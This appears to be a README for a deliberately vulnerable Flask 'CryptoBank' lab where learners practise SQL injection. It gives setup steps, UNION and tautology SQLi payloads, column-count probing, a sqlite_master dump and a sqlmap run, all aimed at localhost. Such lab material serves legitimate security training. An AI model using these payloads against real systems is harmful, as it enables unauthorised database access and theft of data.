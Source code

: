 # CryptoBank-SQL-Injection-Lab
 Flask-based CryptoBank SQL Injection Lab to practice error-based SQLi and UNION SQLi.


📦 Prerequisites:
Python (preferably 3.6 or higher)

Visual Studio Code (VSCode) (with Python support)

Flask (Python web framework)

SQLite (for the database)



🏗️ Step 1: Install Python & Required Modules
If you don't have Python installed yet, download Python here and make sure to add Python to your PATH during installation.

Install Python

Install Flask:

Open VSCode or your terminal.

Install Flask and SQLite3 dependencies using pip:



pip install flask sqlite3

🧑‍💻 Step 2: Set Up the Project

Open VSCode.

Create a new folder for your project, e.g., sqli_lab.

Inside the folder, create a file named cryptobank_sqli_lab.py.

Paste the Flask app code from the previous responses into this file.

💾 Save Your Project
Your directory should look like this:


sqli_lab/
│
└── cryptobank_sqli_lab.py
🚀 Step 3: Run the Lab in VSCode Terminal


Open the integrated terminal in VSCode

Run the Flask app by typing:


python cryptobank_sqli_lab.py
This will run the server on http://127.0.0.1:5000/.

You should see output like this in the terminal:


* Running on http://127.0.0.1:5000
🌐 Step 4: Open the Lab in Your Browser

Open your web browser.

Go to:


http://127.0.0.1:5000/

You should see the CryptoBank Data Lookup page with a black background.


🧑‍💻 Step 5: Testing for SQL Injection
On the CryptoBank page, you’ll see a search bar labeled "Client name".

Enter an SQL Injection payload into the search bar (like ' UNION SELECT 1, name, balance, wallet FROM clients--).

The output should display the data from the clients table:

ID: 1, Name: Alice, Balance: 3.2 BTC, Wallet: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa
ID: 2, Name: Bob, Balance: 5.5 BTC, Wallet: 3J98t1WpEZ73CNmQviecrnyiWrnqRhWNLy
ID: 3, Name: Eve, Balance: 0.01 BTC, Wallet: bc1qw508d6qejxtdg4y5r3zarvary0c5xw7k6j28z



⚙️ Step 6: Hacking the Lab
Now you're ready to start testing for vulnerabilities and executing SQL injection payloads. Here's what you can try:

Example SQLi payloads:

Simple UNION SELECT (to get the data from the clients table):

' UNION SELECT 1, name, balance, wallet FROM clients--

Find number of columns (if you're unsure):

pgsql
Kopieren
Bearbeiten
' ORDER BY 1--        ✅
' ORDER BY 2--        ✅
' ORDER BY 3--        ✅
' ORDER BY 4--        ❌ (error!)
Blind SQLi or Advanced Payloads:

' OR 1=1--

' UNION SELECT 1, sql, 3 FROM sqlite_master-- (to dump table names)

📖 Step 7: Automate with Burp Suite or SQLmap
If you want to automate testing, you can use tools like Burp Suite or SQLmap.

Using Burp Suite:
Set up Burp Suite and configure it to proxy your browser traffic.

Intercept the request to /search?name=<input> and modify the parameter to inject SQLi payloads.

Test different payloads to see how the application reacts (e.g., error messages or data dumps).

Using SQLmap:
Install SQLmap on your machine:


git clone https://github.com/sqlmapproject/sqlmap.git

cd sqlmap

Run the following to test SQL injection:


python sqlmap.py -u "http://127.0.0.1:5000/search?name=' OR 1=1--" --batch

SQLmap will try to automate detection and exploitation of SQLi vulnerabilities.

📝 Additional Notes:
Security Best Practices: This is a vulnerable app for educational purposes. In a real-world application, always sanitize user inputs (use prepared statements, parameterized 

queries, or ORM libraries).

Next Steps: You can add more features (e.g., transaction history, admin panel) to expand the vulnerability testing.
